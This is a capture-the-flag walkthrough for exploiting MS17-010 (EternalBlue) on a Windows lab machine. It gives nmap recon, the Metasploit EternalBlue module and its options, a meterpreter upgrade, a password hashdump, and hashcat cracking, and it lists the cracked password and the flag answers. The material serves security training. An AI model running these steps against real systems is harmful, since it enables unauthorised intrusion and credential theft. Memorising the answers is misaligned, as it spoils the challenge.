 
# 🏆 CTF Walkthrough: MS17-010 Exploitation

## Table of Contents:
1. [Recon 🔍](#recon)
   - How many ports are open with a port number under 1000?
   - What is this machine vulnerable to?
2. [Gain Access 💻](#gain-access)
   - Exploitation Code Path
   - Setting Required Options
3. [Escalate 🚀](#escalate)
   - Convert Shell to Meterpreter
   - Migrate to New Process
4. [Cracking 🔓](#cracking)
   - Dumping Passwords
   - Cracking NTLM Hash
5. [Find Flags! 🎯](#find-flags)
   - Flag1
   - Flag2
   - Flag3

---

## Recon 🔍

### 1. How many ports are open with a port number under 1000? (Active Enumeration)
Run the following `nmap` scan:
```bash
nmap -Pn -A -sV 10.10.165.189
```

The open ports below 1000 are:

- **135/tcp** - Microsoft Windows RPC
- **139/tcp** - Microsoft Windows netbios-ssn
- **445/tcp** - Microsoft Windows SMB

Thus, there are **3** services running:
1. **msrpc** 🔐
2. **netbios-ssn** 🌐
3. **microsoft-ds** 🖥️

### 2. What is this machine vulnerable to? 🚨
The machine is vulnerable to **MS17-010**, which exploits a vulnerability in the SMB protocol known as **EternalBlue**.

---

## Gain Access 💻

### 1. Find the exploitation code we will run against the machine. What is the full path of the code?
Use `msfconsole` to search for **MS17-010**:
```bash
msf6 > search ms17-010
```

This will show the following relevant exploit:
```
exploit/windows/smb/ms17_010_eternalblue
```

### 2. Set up the exploit:
```bash
use exploit/windows/smb/ms17_010_eternalblue
set LHOST tun0
set RHOSTS 10.10.165.189
exploit
```

### 3. Show options and set the one required value. What is the name of this value?
The required option is **RHOSTS**, which is the target machine's IP address.

---

## Escalate 🚀

### 1. If you haven't already, background the previously gained shell:
```bash
ctrl + Z
```

### 2. Convert the shell to a meterpreter shell:
Search for the post module to upgrade the shell:
```bash
search shell_to
use post/multi/manage/shell_to_meterpreter
```

### 3. Set the required option and exploit:
```bash
show options
set SESSION 1
exploit
```

### 4. Migrate to another process:
Use the `migrate` command to stabilize the session:
```bash
ps
migrate <PROCESS_ID>
```

This will help ensure the session is moved to a more stable process. 🛠️

---

## Cracking 🔓

### 1. Dump password hashes with `hashdump`:
```bash
hashdump
```

The non-default user is **Jon**.

### 2. Crack the NTLM hash:
The NTLM hash is:
```
aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

Use **hashcat** to crack the hash:
```bash
echo ffb43f0de35be4d9917ac0cc8ad57f8d > hash.txt
hashcat -m 1000 -a 0 hash.txt /path/to/wordlist.txt
```

The cracked password is: **alqfna22** 🔑

---

## Find Flags! 🎯

### 1. **Flag1**: Located at the system root.
```bash
cd C://
dir
type flag1.txt
```
Flag1 content: **flag{access_the_machine}** 💡

### 2. **Flag3**: Located in the Administrator's Documents folder.
```bash
cd Users/Jon/Documents
type flag3.txt
```
Flag3 content: **flag{admin_documents_can_be_valuable}** 📂

### 3. **Flag2**: Located in `System32/config`.
```bash
cd C:\Windows\System32\config
dir
type flag2.txt
```
Flag2 content: **flag{sam_database_elevated_access}** 🔒

---

## Conclusion 🏁

This walkthrough guides you through exploiting the **MS17-010 EternalBlue** vulnerability to gain access to a Windows machine, escalate privileges, dump passwords, crack hashes, and locate flags on the system. With persistence and the correct tools, lateral movement and privilege escalation are key to successfully solving the challenge. 🎉

📌 Created by c1ph3r1337 🕶️🔥
